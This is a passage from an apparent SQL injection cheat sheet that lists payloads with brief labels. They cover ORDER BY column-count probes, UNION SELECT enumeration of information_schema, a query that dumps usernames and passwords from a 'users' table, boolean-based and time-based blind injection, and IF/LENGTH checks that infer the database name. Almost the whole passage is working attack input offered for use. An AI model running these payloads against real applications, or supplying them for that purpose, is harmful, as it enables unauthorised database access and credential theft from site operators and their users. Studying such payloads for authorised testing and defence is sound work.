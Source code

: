 
#### 2. Testing for SQL Injection

   - **Order By Test:**
     ```sql
     1 ORDER BY 1
     sad' ORDER BY 1#
     sad" ORDER BY 1#
     ```
     - Tests if the column count is valid.

   - **Union Injection:**
     ```sql
     ' UNION SELECT 1,2,3,4,table_name FROM information_schema.tables#
     ```
     - Combines results from two queries.

   - **Extract Column Names:**
     ```sql
     ' UNION SELECT 1,2,3,4,COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = 'users'#
     ```

   - **Extract Data from a Table:**
     ```sql
     ' UNION SELECT 1,username,password,fname,description FROM users#
     ```


#### 3. Boolean-Based Blind SQL Injection

   - **True Condition:**
     ```sql
     ' AND 1=1
     ' AND '1'='1
     ' AND "1"="1"
     ```

   - **False Condition:**
     ```sql
     ' AND 1=2
     ' AND '1'='2
     ' AND "1"="2"
     ```

   - **Time-Based Blind SQL Injection:**
     ```sql
     ' AND SLEEP(10)
     ```

   - **Conditional Checks:**
     ```sql
     AND 1 = IF((SELECT LENGTH(DATABASE()) > 3), 1, 0)
     AND 1 = IF((SELECT LENGTH(DATABASE()) > 4), 1, 0)
     AND 1 = IF((SELECT LENGTH(DATABASE()) > 5), 1, 0)
     ```
     - Tests the length of the database name.
